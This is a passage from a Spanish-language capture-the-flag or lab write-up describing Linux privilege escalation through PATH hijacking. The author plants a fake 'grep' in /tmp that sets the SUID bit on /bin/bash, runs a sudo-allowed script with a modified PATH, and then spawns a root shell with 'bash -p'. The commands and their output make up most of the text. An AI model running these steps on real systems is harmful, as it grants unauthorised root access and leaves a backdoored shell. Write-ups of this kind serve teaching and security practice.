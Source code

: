 Vemos una cosa bastante interesante en el script, y es que esta utilizando una ruta relativa para llamar al binario `grep` y no una `absoluta` por lo que podremos realizar un `Path Hijacking` y lo haremos de esta forma.

```shell
cd /tmp
nano grep

#Dentro del nano
#!/bin/bash

echo "Permisos establecidos de forma correcta."
chmod u+s /bin/bash
```

Lo guardamos y ahora exportamos la variable de entorno para que apunte a `/tmp` y se ejecute nuestro binario malicioso.

```shell
chmod +x /tmp/grep
export PATH=/tmp:$PATH
```

Ahora tendremos que ejecutar el binario de la siguiente forma:

```shell
sudo PATH=/tmp:$PATH /opt/security.sh
```

Info:

```
Enter the string to encode:
$$$
Permisos establecidos de forma correcta.
The string cannot contain special characters.
```

Veremos que ha funcionado aparentemente, vamos a comprobarlo:

```shell
ls -la /bin/bash
```

Info:

```
-rwsr-xr-x 1 root root 1234376 Mar 27  2022 /bin/bash
```

Vemos que ha funcionado de forma correcta, por lo que haremos lo siguiente para ser el usuario `root`.

```shell
bash -p
```

Info:

```
bash-5.1# whoami
root
```
